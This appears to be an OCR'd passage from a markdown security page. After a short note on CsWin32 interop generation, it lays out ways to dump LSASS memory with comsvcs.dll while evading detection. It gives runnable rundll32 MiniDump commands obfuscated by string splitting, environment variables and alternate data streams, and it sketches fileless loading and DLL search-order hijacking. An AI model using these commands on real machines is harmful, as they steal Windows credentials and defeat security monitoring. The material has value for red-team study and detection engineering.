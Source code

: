 ### **Advantages of Using CsWin32**:

- **Automatic Updates**: The P/Invoke signatures are automatically generated and updated based on the latest Windows SDK, reducing the risk of errors.
- **Type Safety**: CsWin32 provides better type safety and usability compared to manually writing `DllImport` signatures.

This approach simplifies the integration of Windows API calls into your C# code by leveraging the power of CsWin32 for automatic interop code generation.

### Comsvcs.dll

Dumping the LSASS process using `comsvcs.dll` can be detected by security tools, so attackers may employ various obfuscation techniques to avoid detection. Below are some obfuscation strategies that can be applied when using `comsvcs.dll` to dump LSASS memory:

### 1. **Command Line Obfuscation**
   - **String Concatenation**: Break the command into multiple parts and concatenate them. This can make the command less recognizable by signature-based detection tools.

     ```cmd
     cmd.exe /c "rundll32.exe c:\\wi"+"ndo"+"ws\\syst"+"em32\\comsvcs.dll, MiniDump 1234 C:\\\\Win"+"do"+"ws\\Temp\\lsass.dmp full"
     ```

   - **Environment Variables**: Use environment variables to obfuscate parts of the path.

     ```cmd
     set sysdir=%SystemRoot%\system32
     rundll32.exe %sysdir%\comsvcs.dll, MiniDump 1234 %SystemRoot%\Temp\lsass.dmp full
     ```

   - **Alternate Data Streams (ADS)**: Hide the command in an alternate data stream of a file and execute it.

     ```cmd
     echo rundll32.exe c:\windows\system32\comsvcs.dll, MiniDump 1234 c:\windows\temp\lsass.dmp full > normal.txt:hidden
     more < normal.txt:hidden | cmd
     ```

### 2. **Fileless Techniques**
   - **Memory-only Execution**: Instead of writing the dump to a file, the dump can be held in memory and transmitted or processed without touching the disk.

   - **In-Memory Assembly Loading**: Load the `comsvcs.dll` and execute the dump operation directly in memory using a script or a tool that supports reflective DLL loading. This avoids writing `comsvcs.dll` to disk.

### 3. **Using Alternate DLLs**
   - **Custom DLL Loading**: If allowed, you could rename `comsvcs.dll` or use another DLL that performs a similar function, reducing the chance that a specific signature will match.

   - **Hijack DLL Path**: Modify the DLL search order to load a modified version of `comsvcs.dll` that performs the same operation but with added obfuscation.
